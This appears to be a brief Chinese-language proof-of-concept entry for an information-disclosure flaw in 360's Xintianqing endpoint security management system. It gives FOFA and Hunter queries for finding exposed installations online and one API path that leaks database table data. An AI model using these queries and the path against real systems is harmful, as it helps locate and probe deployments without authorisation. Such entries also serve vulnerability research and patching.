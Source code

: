 # 360 新天擎终端安全管理系统 gettablessize 信息泄露漏洞

## 网络测绘

fofa: title="360新天擎"

hunter: web.title="360新天擎"

## POC / EXP

```
/api/dbstat/gettablessize
```